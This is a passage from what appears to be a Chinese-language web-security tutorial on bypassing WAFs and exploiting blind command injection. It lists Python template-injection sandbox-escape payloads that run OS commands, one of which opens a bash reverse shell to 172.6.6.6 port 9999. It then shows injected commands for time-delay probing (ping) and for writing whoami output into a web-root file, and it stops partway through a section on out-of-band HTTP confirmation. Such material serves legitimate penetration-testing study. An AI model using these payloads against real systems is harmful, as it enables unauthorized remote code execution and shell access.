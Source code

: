 ![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoQNv9FKIAMZtbic8jG9LvrU0c4QLZpQMwErMQrwozQibed0nnwxtN9hO0zmQazmuGo02iaE7y47cxNA/640?wx_fmt=png)

###### waf 绕过

甩几个 test payload  
有时候看不到回显。可以在源代码里看到回显

```
python2：
[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].system('ls')
[].__class__.__base__.__subclasses__()[76].__init__.__globals__['os'].system('ls')
"".__class__.__mro__[-1].__subclasses__()[60].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')
"".__class__.__mro__[-1].__subclasses__()[61].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')
"".__class__.__mro__[-1].__subclasses__()[40](filename).read()
"".__class__.__mro__[-1].__subclasses__()[29].__call__(eval,'os.system("ls")')
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__('func_global'+'s')['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('bash -c "bash -i >& /dev/tcp/172.6.6.6/9999 0>&1"')
python3：
''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.values()[13]['eval']
"".__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__['__builtins__']['eval']
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__('__global'+'s__')['os'].__dict__['system']('ls')
```

四. 命令执行无回显利用技巧
--------------

OS 命令注入的许多实例都是无回显的漏洞。这意味着应用程序不会在其 HTTP 响应中返回命令的输出。但无回显漏洞仍然可以被利用，只是需要不同的技术。

#### 延时

可以使用注入的命令来触发时间延迟，从而根据应用程序响应的时间来确认命令是否已执行。`ping`命令是执行此操作的有效方法，因为它可以指定要发送的 ICMP 数据包的数量，从而指定该命令的运行时间：

```
& ping -c 10127.0.0.1&
```

此命令将导致应用程序 ping 其环回网络适配器 10 秒钟。

#### 重定向输出

我们可以将注入命令的输出重定向到 Web 根目录下的文件中，然后使用浏览器进行检索。例如，如果应用程序从文件系统 location 提供静态资源`/var/www/static`，那么您可以提交以下输入：

```
& whoami >/var/www/static/whoami.txt &
```

其中`>`字符能将`whoami`命令的结果输出到指定的文件。然后，我们可以使用浏览器来读取`https://vulnerable-website.com/whoami.txt`文件，并查看注入命令的输出。

#### HTTP 请求

目标机通过向公网可通信的机器发起 http 请求，而这个公网可通信的机器是我们可控的，则当该公网机子收到 http 请求就代表命令有执行。
